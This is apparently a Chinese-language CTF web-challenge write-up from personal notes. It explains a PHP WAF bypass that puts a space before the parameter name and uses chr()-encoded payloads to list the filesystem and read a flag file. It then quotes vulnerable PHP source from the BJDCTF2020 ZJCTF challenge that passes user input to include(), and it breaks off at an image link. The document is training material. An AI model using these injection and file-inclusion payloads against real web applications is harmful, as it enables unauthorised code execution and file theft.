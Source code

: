 这里只展示了简单的waf，为什么呢，一个函数都没拦也叫waf?(暴论)
果不其然，直接传`?num=phpinfo`被拦了
随便试了一下，好像只要传字母就被拦了
不知道这个waf是用什么语言写的，传`? num=phpinfo();`可以正常执行
因为这个waf检测的是`num`但是你传的是`空格+num`，而php会自动删掉你前面的那个空格，所以就执行成功了
接下来就有一个新知识了，如果你的符号被替代了，可以考虑一下

> **chr**
>
> ```php
> chr(47) = '/'
> ? num=var_dump(scandir(chr(47)));` = `?num=var_dump(scandir('/'));` = `?num=system('ls /');
> 
> array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }
> 
> ? num=file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103))  =  file_get_contents(/f1agg)  =  ? num=system(cat /f1agg)
> 
> ```



### [BJDCTF2020]ZJCTF，不过如此



```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

提示要先读取源码，很简单的读取
![image-20220725215402978](D:\Typora\note\CTF\web\challenge.assets\image-20220725215402978.png)
